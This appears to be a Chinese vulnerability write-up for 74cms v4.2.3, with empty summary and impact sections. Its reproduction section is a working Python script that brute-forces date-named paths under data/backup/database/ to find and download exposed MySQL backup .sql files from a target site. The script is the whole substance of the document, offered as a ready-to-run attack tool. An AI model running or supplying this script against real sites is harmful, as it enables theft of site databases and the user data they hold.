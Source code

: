 74cms v4.2.3 备份文件爆破
=========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    # -*- coding: utf-8 -*-
    -------------------------------------------------
       File Name：     74cms_MysqlBak
       Description :
       Author :       CoolCat
       date：          2019/1/5
    -------------------------------------------------
       Change Activity:
                       2019/1/5:
    -------------------------------------------------
    """
    __author__ = 'CoolCat'

    import requests

    def getBak(time):
        print("[running]:正在查询" + time + "是否存在备份")
        dir = time + "_1"
        filename = dir + "_1.sql"
        url = target + "//data/backup/database/" + dir +"/"+ filename
        session = requests.Session()
        headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                   "Upgrade-Insecure-Requests": "1",
                   "User-Agent": "Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0",
                   "Connection": "close", "Accept-Language": "en", "Accept-Encoding": "gzip, deflate"}
        cookies = {"think_language": "en", "think_template": "default", "PHPSESSID": "6d86a34ec9125b2d08ebbb7630838682"}
        response = session.get(url=url, headers=headers, cookies=cookies)
        if response.status_code == 200:
            print(url)
            exit()

    if __name__ == '__main__':

        global target
        target = "http://www.target.com"

        for year in range(2017, 2020):
            for mouth in range(1, 13):
                for day in range(1, 31):
                    time = (str(year) + str('%02d' % mouth) + str('%02d' % day))
                    getBak(time)
